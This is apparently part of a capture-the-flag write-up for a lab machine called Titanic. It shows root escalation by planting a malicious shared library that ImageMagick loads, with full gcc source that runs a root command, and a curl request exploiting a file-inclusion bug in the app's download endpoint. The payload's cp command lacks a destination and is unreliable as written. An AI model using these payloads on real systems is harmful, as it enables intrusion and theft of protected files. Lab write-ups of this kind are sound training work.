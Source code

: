 Interestingly developer has write permissions on that location:

```
developer@titanic:/opt/app/static/assets/images$ ls -la
total 1288
drwxrwx--- 2 root developer   4096 Feb  3 17:13 .
drwxr-x--- 3 root developer   4096 Feb  7 10:37 ..
-rw-r----- 1 root developer 291864 Feb  3 17:13 entertainment.jpg
-rw-r----- 1 root developer 280854 Feb  3 17:13 exquisite-dining.jpg
-rw-r----- 1 root developer 209762 Feb  3 17:13 favicon.ico
-rw-r----- 1 root developer 232842 Feb  3 17:13 home.jpg
-rw-r----- 1 root developer 280817 Feb  3 17:13 luxury-cabins.jpg
-rw-r----- 1 root developer    442 Feb 16 00:11 metadata.log
```

Seeing as the output is directed to image magick, we find the following vulnerability:
[Arbitrary Code Execution in ImageMagick](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8)

So we can change the library like so:

```
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /root/root.txt && chmod 777 /tmp/root.txt");
    exit(0);
}
EOF
```

And copy a `jpg` file to execute `identify_images.sh`:

```
cp entertainment.jpg root.jpg
```

so we have code execution as root!

# Beyond Root
An interesting quirk of `app.py`, the app with the LFI vulnerability is that even without directory traversal it is still possible to do the LFI:

```
curl http://titanic.htb/download?ticket=/home/developer/user.txt
```
I find this strange as if we take a look at this script it seems like it shouldn't work due to prepending `TICKET_DIR` to the specified directory:

```python
TICKETS_DIR = "tickets"
ticket = request.args.get('ticket')
json_filepath = os.path.join(TICKETS_DIR, ticket)

if os.path.exists(json_filepath):
    return send_file(json_filepath, as_attachment=True, download_name=ticket)
```
